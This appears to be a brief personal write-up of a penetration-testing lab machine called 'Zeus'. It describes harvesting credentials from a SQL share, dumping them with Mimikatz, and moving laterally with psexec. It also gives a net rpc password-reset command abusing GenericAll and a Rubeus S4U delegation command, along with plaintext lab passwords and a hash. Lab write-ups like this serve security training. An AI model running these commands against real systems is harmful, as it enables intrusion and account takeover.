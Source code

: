 # Zeus

On 192.168.214.159 share SQL

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

get conection.sql to find credentials zeus.corp\db\_user:Password123!

on .159 we are admin with the given credentials. Dump with mimi and get o.foller:EarlyMorningFootball777.

Enter on .160 with this credentials using psexec.

Whe found a document inside z.thomas folders with is credentials ^1+>pdRLwyct]j,CYmyi

he has generic all on d.chambers. Change her password

{% code overflow="wrap" %}
```
net rpc password "d.chambers" "Password123" -U "zeus.corp"/"z.thomas"%'^1+>pdRLwyct]j,CYmyi' -S "192.168.214.158"
```
{% endcode %}



{% code overflow="wrap" %}
```
Rubeus.exe s4u /user:attackersystem$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:admin /msdsspn:cifs/dc02.sub.poseidon.yzx /ptt
```
{% endcode %}



